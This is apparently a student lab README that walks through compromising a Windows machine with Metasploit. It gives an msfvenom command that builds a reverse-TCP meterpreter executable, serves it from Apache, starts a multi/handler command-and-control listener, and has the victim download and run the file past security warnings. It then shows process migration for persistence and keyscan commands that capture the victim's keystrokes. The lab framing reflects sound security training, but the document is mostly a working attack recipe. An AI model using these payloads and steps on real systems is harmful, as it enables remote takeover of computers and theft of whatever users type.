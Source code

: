 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/bba88293-f16c-46eb-ba94-e523881e18ca)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/a842e7c5-d95f-4fbc-9e31-fa7a5759eea7)


Start apache server sudo systemctl apache2 start and Check the status of apache2
![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/c62ac1bf-a11e-4bf7-a182-1e109c47c9d9)



## Invoke msfconsole:
## OUTPUT:

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/f5f79203-a5f9-498c-905b-51bf94eb2611)


ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/be190bea-b5c5-427f-978a-9354831ecee1)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/867a1063-34c1-4d03-a119-7de55d09dd60)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/fb733a24-d66a-4892-bd01-71bed2215e9d)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/69993afa-fd2c-44f7-934e-60af6a3f93e2)



keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/vatsan143/Compromising-windows-using-Metasploit/assets/147368204/14c06ee9-81dc-43de-9921-338272a076a0)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
